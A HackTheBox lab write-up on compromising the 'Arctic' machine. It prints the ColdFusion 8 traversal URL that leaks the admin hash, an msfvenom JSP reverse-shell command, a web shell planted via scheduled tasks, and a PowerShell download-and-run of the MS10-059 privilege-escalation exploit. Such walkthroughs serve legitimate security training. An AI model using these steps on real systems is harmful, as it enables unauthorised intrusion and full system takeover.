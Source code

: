 I did this box quite some time ago as it was one of the first ones I did when first starting HackTheBox. I recently helped out someone who was working on this box
so I decided to reorganize my notes, as they were somewhat of a mess and restructure them for a proper writeup.

### Initial Enumeration

First, let's start with a quick nmap scan to see what we get.
```
root@kali:~/htb/arctic# nmap -sV 10.10.10.11

Nmap scan report for 10.10.10.11
Host is up (0.065s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Right off the bat port 8500 looks interesting. Let's have a look in the browser.

![8500](/img/arctic-8500.png)

![CFIDE](/img/arctic-cfide.png)

The administrator directory gives us a login for ColdFusion 8.

![Login](/img/arctic-login.png)

### Exploitation

After a quick search online we find that ColdFusion 8 is vulnerable to directory traversal. ColdFusion 8 also stores the administrator hash locally in a file called password.properties. So we can grab the administrator hash using the directory traversal using the following URL:
```
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
And we get this output in the browser.

![HASH](/img/arctic-hash.png)

So we have a hash of `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03`

Using hash-identifier we see the hash is most likely SHA-1.

```
root@kali:~/htb/arctic# hash-identifier
   #########################################################################
   #	 __  __ 		    __		 ______    _____	   #
   #	/\ \/\ \		   /\ \ 	/\__  _\  /\  _ `\	   #
   #	\ \ \_\ \     __      ____ \ \ \___	\/_/\ \/  \ \ \/\ \	   #
   #	 \ \  _  \  /'__`\   / ,__\ \ \  _ `\	   \ \ \   \ \ \ \ \	   #
   #	  \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \	    \_\ \__ \ \ \_\ \	   #
   #	   \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/	   #
   #	    \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.1 #
   #								 By Zion3R #
   #							www.Blackploit.com #
   #						       Root@Blackploit.com #
   #########################################################################

   -------------------------------------------------------------------------
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Possible Hashs:
[+]  SHA-1
```

A quick Google search online yields the cracked password - `happyday`. Usually easiest to start here before firing up hashcat. 

Inside of the login page there is an area that allows us to upload files via Scheduled Tasks under the Debugging & Logging Category.  

![ADMIN](/img/arctic-admin.png)

The scheduled task setup gives you the ability to download a file from a webserver and save the output locally. Under Mappings, we can verify the CFIDE path, so we know where we can save a shell.

![MAPPINGS](/img/arctic-mappings.png)

At this point we need to generate a shell. We could upload a cfexec.cfm shell (located in /usr/share/webshells/cfm on Kali) to get command execution or we can get a full shell by uploading a JSP shell since ColdFusion will serve and run JSP files.

To generate a JSP shell, we use msfvenom and set our parameters accordingly.

```
root@kali:~/htb/arctic# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f raw > shell.jsp
Payload size: 1496 byte
```

Now that we have our shell created let's serve up the file from Kali using a python SimpleHTTPServer

```
root@kali:~/htb/arctic# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Inside the ColdFusion admin console we configure three parameters for the scheduled task. 
- Set the URL to our webserver hosting the JSP shell 
- Check the box for Save output to a file 
- Set File to C:\ColdFusion8\wwwroot\CFIDE\shell.jsp

![TASK](/img/arctic-task.png)

After submitting we run the task on demand under Actions, and we can see the 200 reponse on our python http server. 

![TASKRUN](/img/arctic-taskrun.png)

Fire up a netcat listener and we can now browse to our shell at `http://10.10.10.11:8500/CFIDE/shell.jsp`

```
root@kali:~/htb/arctic# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 49212
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami & hostname
whoami & hostname
arctic\tolis
arctic
```

And we can grab the user.txt flag on tolis' desktop. 

### Privilege Escalation

Tolis doesn't seem to be an administrator on the system so we will need to escalate. One of the first things I do for privilege escalation on Windows is grab system information, so that we can identify the OS and also see if its missing any patches.

```
C:\>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00477-001-0000421-84900
Original Install Date:     22/3/2017, 11:09:45   
System Boot Time:          29/12/2017, 3:34:21   
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz
                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 88 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.085 MB
Virtual Memory: In Use:    963 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```
From here we identify the box is running Server 2008 R2 and also has no patches installed according to the output under Hotfix(s). Great! Let's see what exploits we can find. From here you can either Google, use Exploit-DB, searchsploit, or for Windows I like to use something called [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) which makes life easy. I won't go into details on how to use it, check the github to see usage and what all you can feed into it.

After looking through the output I found a few privilege escalation exploits that could work. I settled on looking into MS10-059.

https://www.exploit-db.com/exploits/14610/

The Exploit-DB download only contained source files and no compiled exe. For whatever reason the exploit has an alias name of Chimichurri as referenced on Exploit-DB so I also searched by that and was able to find a compiled exe on Github [here](https://github.com/Re4son/Chimichurri). Note that normally you want compile things yourself but I wasn't able to do so myself without installing a ton of stuff so I decided to forgo it. Based on the source code it looks like the exploit will send us a reverse shell by feeding our IP address and desired port as parameters.

Once again we setup a python http server on Kali and to download to our target a simple powershell script will do the trick.

```
C:\ColdFusion8>echo $webclient = New-Object System.Net.WebClient >>wget.ps1

C:\ColdFusion8>echo $url = "http://10.10.14.10/chimichurri.exe" >>wget.ps1

C:\ColdFusion8>echo $file = "exploit.exe" >>wget.ps1

C:\ColdFusion8>echo $webclient.DownloadFile($url,$file) >>wget.ps1

C:\ColdFusion8>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

We verify the download, start a netcat listener, and run the exploit.

```
C:\ColdFusion8>exploit.exe 10.10.14.10 443

/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

```
root@kali:~/htb/arctic# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 49267
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8>whoami & hostname
whoami & hostname
nt authority\system
arctic
```

From here we're able to grab the root.txt flag on the Administrator desktop. Thanks for reading!
